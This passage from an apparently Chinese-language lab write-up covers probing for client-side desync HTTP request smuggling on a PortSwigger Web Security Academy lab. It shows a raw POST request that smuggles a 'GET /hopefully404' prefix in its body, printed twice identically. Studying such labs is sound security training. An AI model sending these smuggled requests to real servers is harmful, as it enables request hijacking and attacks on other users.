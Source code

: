 [![](assets/1705301772-ce9583745d68dad7bdbbc37d9e9052d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182612-57345bea-b2c7-1.png)  
随后将请求 URL 更改为其他要 Fuzzing 的路径并更改请求头信息"Connection: keep-alive"发送请求

```plain
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

[![](assets/1705301772-0e9ff2d35db35232c733119a8edd4c7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182631-622cbc90-b2c7-1.png)  
如果服务器正常响应第二个请求，则此端点不会受到攻击，如果对第二个请求的响应与我们期望的走私前缀相匹配，则表面后端服务器会忽略请求头中的"Content-Length"

```plain
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```
